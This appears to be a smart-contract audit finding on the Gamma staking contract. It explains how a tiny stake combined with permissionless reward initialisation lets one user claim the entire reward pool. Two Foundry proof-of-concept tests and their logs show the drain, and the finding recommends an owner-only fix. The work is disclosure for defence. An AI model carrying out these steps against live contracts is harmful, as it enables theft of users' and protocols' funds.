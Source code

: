 Fit Marigold Squirrel

high

# Viable Pathways for entire Rewards Token to Be Stolen With Small Amount

## Summary
The entire rewards deposited can be stolen by malicious users through viable pathways.

## Vulnerability Detail
According to the protocol:
> The reward tokens will be sent periodically to the staking contract and function ```notifyUnseenRewards()``` will be called.

While the permissionless of rewards initialization (```notifyUnseenRewards()```) at first does not seem like a deal breaker, until we realize that the staking contract employs an earning system whereby if there's only one staker in the contract, then the entire available rewards go to the staker with immediate effect. In other words, if there's only one staker then the entire reward goes to the staker instantly...all the staker has to do is to call ```getAllRewards()``` and get the entire deposited rewards token instantly (at the time). 

This also implies that the first and only staker with a locked amount or balance gets the entirety of the rewards available at the time before any other staker joins. Ideally, this wouldn't have been an issue if the Staker had to wait for a particular period (usually a reward period) to claim the entire rewards available if there are no Staker besides him but in this case, they are allowed to claim the entire reward instantly if rewards are available though will have their stakes locked (since protocol said ```"...we'll keep the lowest lock time at around 30 days"```) but won't matter if the locked amount is smaller than the gained or stolen reward tokens. This allows pathways like malicious users to monitor and wait for reward deposition, stake immediately after (i.e. become the first staker) with a small amount and take the entire rewards available. This way they will be locking a small amount (which could later be seized) for a higher reward.

Since rewards are deposited periodically the possibility of this issue splits into 2 parts:
* 1. Rewards get deposited when no stakes: This is the easiest pathway for attackers or malicious users by simply monitoring the arrival of the rewards, then staking a very minimal amount (for example 1 wei) and immediately calling ```notifyUnseenRewards()``` to initialize rewards then steal the entire available rewards by calling ```getAllRewards()``` before any other staker joins.
* 2. Rewards get deposited when Stakers available in the contract already opted for ```exitLateById()```: In this case, there are a bunch of Stakers in the contract but all these Stakers have already claimed available rewards and decided to withdraw their stakes by calling ```exitLateById()``` and wait for their ```unlockTime```. While waiting, if rewards were to be deposited at the time, a malicious user from the bunch of Stakers waiting for their ```unlockTime``` can quickly call ```restakeAfterLateExit()``` to restake, and immediately call ```notifyUnseenRewards()``` to initialise rewards then quickly claim the entire available rewards before anyone joins. Even though they will have their stakes locked, it will still be of the attacker's benefit if the locked amount is less than the entire reward stolen. (Also, anyone external can stake immediately, initialize the rewards, and steal the deposited rewards if by chance all available stakers already opted for ```exitLateById()```)

While the ```notifyUnseenRewards()``` employs this check ```if (lockedSupplyWithMultiplier == 0) return;``` to avoid initializing rewards if rewards were sent to the contract when no active stakes i.e If there is no locked supply with multiplier, but the permissionless of the function makes it avail for anyone to deposit a small amount, initialize and steal the entire rewards.

Another concerning angle is that any reward token that is mistakenly sent to the contract will automatically be lost to the available stakers i.e admin will not be able to rescue this token with ```recoverERC20()```, because users (malicious or not) will probably have called ```notifyUnseenRewards()``` to add the sent token as cumulative rewards and claim it immediately. This will be shared amongst the stakers available in the contract (if more than one) or all claimed by the only staker therefore ```recoverERC20()``` will be rendered useless. 

## POC (1)
Run ```forge test --match-test testHack1 -vv``` on ```Withdraw.t.sol```
```javascript
function testHack1() public {
        // Rewards sent but not initialized since lockedSupplyWithMultiplier == 0
        vm.prank(deployer);
        _rewardToken.transfer(address(lock), 300e18);

        uint256 balanceBeforeAttack = _rewardToken.balanceOf(address(lock));
        console.log("Available Rewards Before Attack:", balanceBeforeAttack);

        //malicious user sees the opportunity and stake very small amount to steal the entire rewards
        vm.startPrank(user3);
        lock.stake(1e18, user3, 2);
        lock.notifyUnseenReward(rewardTokens);
        lock.getAllRewards();

        uint256 balanceAfterAttack = _rewardToken.balanceOf(address(lock));
        console.log("Available Rewards After Attack:", balanceAfterAttack);
    }
```
```javascript
Logs:
  Available Rewards Before Attack: 300000000000000000000
  Available Rewards After Attack: 0
```
## POC (2)
Run ```forge test --match-test testHack2 -vv``` on ```Withdraw.t.sol```
```javascript
function testHack2() public {
        // Users stake tokens
        vm.prank(user1);
        lock.stake(100e18, user1, 0);
        vm.prank(user2);
        lock.stake(100e18, user2, 1);
        //malicious user 
        vm.prank(user3);
        lock.stake(1e18, user3, 2);
        
        //some time went by
        vm.warp(block.timestamp + 10);

        // First Reward distribution
        vm.prank(deployer);
        _rewardToken.transfer(address(lock), 300e18);
        vm.prank(deployer);
        lock.notifyUnseenReward(rewardTokens);

        //everyone claims respective rewards
        vm.prank(user1);
        lock.getAllRewards();
        vm.prank(user2);
        lock.getAllRewards();
        vm.prank(user3);
        lock.getAllRewards();

        //some time went by again
        vm.warp(block.timestamp + 5);

        //By chance the available stakers decide to unstake i.e exitLateById()
        
        // Fetch the first lock for user1, user2, and user3  and perform a late exit
        LockedBalance[] memory user1Locks = lockList.getLocks(user1, 0, 10);
        LockedBalance memory user1Lock = lockList.getLockById(user1, user1Locks[0].lockId);
        vm.prank(user1);
        lock.exitLateById(user1Lock.lockId);

        LockedBalance[] memory user2Locks = lockList.getLocks(user2, 0, 10);
        LockedBalance memory user2Lock = lockList.getLockById(user2, user2Locks[0].lockId);
        vm.prank(user2);
        lock.exitLateById(user2Lock.lockId);

        LockedBalance[] memory user3Locks = lockList.getLocks(user3, 0, 10);
        LockedBalance memory user3Lock = lockList.getLockById(user3, user3Locks[0].lockId);
        vm.prank(user3);
        lock.exitLateById(user3Lock.lockId);


        //some time went by again
        vm.warp(block.timestamp + 5);

        // While stakers await for their unlockTime new reward is added 
        // but not initialized since lockedSupplyWithMultiplier == 0
        vm.prank(deployer);
        _rewardToken.transfer(address(lock), 300e18);

        uint256 balanceBeforeAttack = _rewardToken.balanceOf(address(lock));
        console.log("Available Rewards Before Attack:", balanceBeforeAttack);

        //malicious user sees the opportunity and pounce on it
        vm.startPrank(user3);
        lock.restakeAfterLateExit(user3Lock.lockId, 2); 
        lock.notifyUnseenReward(rewardTokens);
        lock.getAllRewards();
        vm.stopPrank();

        uint256 balanceAfterAttack = _rewardToken.balanceOf(address(lock));
        console.log("Available Rewards After Attack:", balanceAfterAttack);
    }
```
```javascript
Logs:
  Available Rewards Before Attack: 300000000000000000002
  Available Rewards After Attack: 2
```

## Impact
Stealing of entire reward tokens/Lose of funds for protocol

## Code Snippet
https://github.com/sherlock-audit/2024-05-gamma-staking/blob/main/StakingV2/src/Lock.sol#L501-L511
https://github.com/sherlock-audit/2024-05-gamma-staking/blob/main/StakingV2/src/Lock.sol#L466-L481
https://github.com/sherlock-audit/2024-05-gamma-staking/blob/main/StakingV2/src/Lock.sol#L484-L497
https://github.com/sherlock-audit/2024-05-gamma-staking/blob/main/StakingV2/src/Lock.sol#L494
## Tool used

Manual Review

## Recommendation
While the employed earning system is debatable, it is fair enough to deem it a design choice, therefore the best and easiest way to mitigate this issue while respecting the earning system is to employ the initialization of rewards (i.e calling of ```notifyUnseenRewards()```) to strictly whitelisted entities or ```onlyOwner```. This way only the allowed trusted entities or ```Owner``` can initialize rewards at will i.e when reward tokens are sent to the contract, only the trusted entities or ```Owner``` can call ```notifyUnseenRewards()``` to initialize rewards at the right and fair time (for users).
